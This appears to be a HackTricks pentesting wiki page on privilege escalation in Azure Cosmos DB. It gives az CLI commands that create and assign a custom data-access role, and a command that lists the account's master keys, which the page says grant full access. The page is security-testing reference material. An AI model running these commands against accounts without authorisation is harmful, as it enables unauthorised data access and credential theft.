 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
For more information about SQL Database check:

{% content-ref url="../az-services/az-cosmosDB.md" %}
[az-cosmosDB.md](../az-services/az-cosmosDB.md)
{% endcontent-ref %}

### ("Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read") & ("Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read")

With this permissions you can priviledge scalate giving a user the pemrissions to execute queries and connect to the database. First a definition role is created giving the necesary permissions and scopes.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
      "Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
      "RoleName": "CustomReadRole",
      "Type": "CustomRole",
      "AssignableScopes": [
        "/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
      ],
      "Permissions": [
        {
          "DataActions": [
            "Microsoft.DocumentDB/databaseAccounts/readMetadata",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
          ]
        }
      ]
    }'
```
{% endcode %}

After that the assigment of the definition is given to a user. After this that user can use the DefaultAzureCredential() connection method to execute queries.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role assignment create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --role-definition-id <Random-Unique-ID-used-in-definition> \
    --principal-id <principal_id-togive-perms> \
    --scope "/"
```
{% endcode %}

### "Microsoft.DocumentDB/databaseAccounts/listKeys/action"
With this permission, you can retrieve the primary and secondary keys for an Azure Cosmos DB account. These keys provide full access to the database account and its resources, enabling actions such as data reads, writes, and configuration changes.

{% code overflow="wrap" %}
```bash
az cosmosdb keys list \
  --name <account_name> \
  --resource-group <resource_group_name>

```
{% endcode %}


{{#include ../../../banners/hacktricks-training.md}}
